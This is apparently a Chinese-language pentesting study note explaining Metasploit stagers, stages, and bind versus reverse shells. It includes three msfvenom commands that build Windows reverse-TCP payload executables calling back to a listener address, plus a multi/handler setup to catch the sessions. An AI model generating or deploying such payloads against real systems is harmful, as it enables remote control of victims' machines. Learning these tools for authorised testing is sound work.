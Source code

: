 #### Stagers的作用

创建某种形式的通信 ，然后将执行传递到下一个阶段。

#### 使用 stager 可以解决两个问题 

首先，它允许我们最初使用较小的有效负载来加载具有更多功能的较大有效负载 。

其次，它可以将通信机制与最终阶段分开 ，因此一个有效负载可以与多种传输一起使用，而无需重复代码。

`Stages`：由于 stager 将通过分配大块内存供我们运行来处理任何大小限制，因此stages 可以任意大。

其优点之一是能够用 C 等高级语言编写最终阶段的有效负载。

所有分阶段的有效负载只不过是建立通信并执行下一阶段的小存根。

当您使用分阶段的有效负载创建可执行文件时， 您实际上只是在创建`stager` 。

#### 创建exe文件

下面三条命令将创建功能相同的exe的文件：

```bash
msfvenom -f exe LHOST=192.168.70.4 LPOST=4444 -p windows/meterpreter/reverse_tcp -o 4444.exe 
msfvenom -f exe LHOST=192.168.70.4 LPOST=4444 -p windows/shell/reverse_tcp -o 4444_1.exe
msfvenom -f exe LHOST=192.168.70.4 LPOST=4444 -p windows/vncinject/reverse_tcp -o 4444_2.exe
```

在 `shell stage`的情况下，当与msf交互时，msf会将远程进程的 stdio 连接到您的终端。

在Meterpreter stage的情况下，msf将开始使用 Meterpreter 有线协议。

> 解决`shell/erverse_tcp`  cmd乱码：`chcp 65001`
>
> chcp 65001 是一个在 Windows 命令提示符（cmd）中使用的命令，用于将命令行界面的代码页更改为 UTF-8。代码页 65001 对应于 UTF-8 编码，这使得你可以在命令行界面中正确显示和输入 Unicode 字符，包括各种语言的字符。

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
#set payload windows/shell/reverse_tcp
#set payload windows/vncinject/reverse_tcp
run lhost=0.0.0.0
```

![image-20241028144455579](https://image.201068.xyz/assets/4.kali工具/image-20241028144455579.png)

### 正向shell与反向shell

#### 正向shell-bind_tcp

在目标计算机上打开一个新服务，并要求攻击者连接到它以获得会话

#### 反向shell-reverse_tcp

要求攻击者首先在他的机器上设置一个侦听器， 目标计算机充当连接到该侦听器的客户端 ，最后攻击者接收 shell

### msfvenom
